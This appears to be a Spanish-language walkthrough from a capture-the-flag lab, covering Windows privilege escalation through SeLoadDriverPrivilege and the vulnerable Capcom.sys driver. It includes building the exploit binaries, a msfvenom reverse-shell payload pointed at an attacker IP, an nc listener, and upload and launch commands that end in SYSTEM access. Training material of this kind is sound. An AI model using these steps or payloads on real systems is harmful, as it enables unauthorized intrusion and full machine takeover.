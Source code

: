 ## Privilege Escalation {-}

### Rootear la maquina {-}

Enumeamos los privilegios del ususarios

```bash
whoami /priv
whoami /all
```

Vemos quel usuario tiene un privilegio **SeLoadDriverPrivilege**. Miramos en la web si se puede escalar privilegios con
esto. 

En firefox buscamos con *SeLoadDriverPrivilege exploit* y caemos en la web de [tarlogic](https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/).

Aqui S4vitar nos recomienda trabajar desde una maquina Windows con Visual studio 19 installado para buildear el exploit.

#### Crando el exploit LoadDriver.exe desde la maquina windows {-}

1. creamos una carpeta de trabajo llamado fuse
1. desde visual studio creamos un nuevo proyecto llamado LoadDriver de typo Console App
1. copiamos el contenido del fichero [eoploaddriver](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp) en el ficher *Source Files/LoadDriver.cpp* del proyecto.
1. eliminamos el primer include que nos da un error *#include "stdafx.h* y que no es necessario
1. en visual studio cambiamos el Debug a Realease y le ponemos x64

    ```{r, echo = FALSE, fig.cap="Build LoadDriver", out.width="90%"}
        knitr::include_graphics("images/Fuse-VS2019.png")
    ```
1. en el menu le damos a Build -> Rebuild solution

Esto nos cree un fichero LoadDriver.exe que copiamos en una carpeta compiledbinaries.

#### Recuperamos el capcom.sys {-}

En la web de tarlogic nos dice que necessitamos un fichero llamado *capcom.sys* lo descargamos desde la [web](https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys) y la copiamos
en la carpeta compiledbinaries.

#### Creamos el ExploitCapcom.exe {-}

En este punto nos tenemos que descargar el fichero **ExploitCapcom**. Este fichero se tiene que compilar desde Visual Studio.

1. descargamos el proyecto

    ```bash
    git clone https://github.com/tandasat/ExploitCapcom
    ```

1. desde Visual Studio le damos a File -> Open -> Project/Solution
1. buscamos el .sln y le damos a open

Si abrimos el fichero ExploitCapcom.cpp, la idea aqui seria de modificar el script para que ejecute un binario malicioso creado con *msfvenom*. 
Para esto necesitamos modificar la funccion **launchSell()** del ExploitCapcom.cpp

En la web de [AppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList), buscamos una routa windows interesante donde se puede trabajar
sin problemas, en este caso seria la `C:\Windows\System32\spool\drivers\color`

1. Modificamos el script

    ```cpp
    static bool launchSell()
    {
        TCHAR CommandLine[] = TEXT("C:\\Windows\\System32\\spool\\drivers\\color\\reverse.exe");
    }
    ```

1. Buildeamos el proyecto dandole al menu Build -> Rebuild solution
1. copiamos el fichero ExploitCapcom.exe en la carpeta compiledbinaries


#### Passamos los ficheros a la maquina victima {-}

En la carpeta `compiledbinaries` tenemos nuestros 3 ficheros necesarios para el exploit.
- Capcom.sys
- ExploitCapcom.exe
- LoadDriver.exe

En esta carpeta, montamos un servidor web con python

```bash
python3 -m http.server
```

Desde la maquina de atacante, descargamos estos ficheros

```bash
wget http://192.168.1.14:8000/Capcom.sys
wget http://192.168.1.14:8000/ExploitCapcom.exe
wget http://192.168.1.14:8000/LoadDriver.exe
```

Creamos el reverse.exe con msfvenom

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o reverse.exe
```

Desde la consola Evil-WinRM de la maquina victima, subimos todo los ficheros

```bash
cd C:\Windows\Temp
upload Capcom.sys
upload ExploitCapcom.exe
upload LoadDriver.exe
cd C:\Windows\System32\spool\drivers\color
upload reverse.exe
```

#### Lanzamos el exploit {-}

En la maquina de atacante nos ponemos en escucha en el puerto 443

```bash
rlwrap nc -nlvp 443
```

En la maquina victima, lanzamos el exploit

```bash
cd C:\Windows\Temp
C:\Windows\Temp\LoadDriver.exe System\CurrentControlSet\savishell C:\Windows\Temp\Capcom.sys
C:\Windows\Temp\ExploitCapcom.exe
```

La reverse shell nos a funccionado y con `whoami` vemos que ya somos nt authority\system y podemos ver la flag.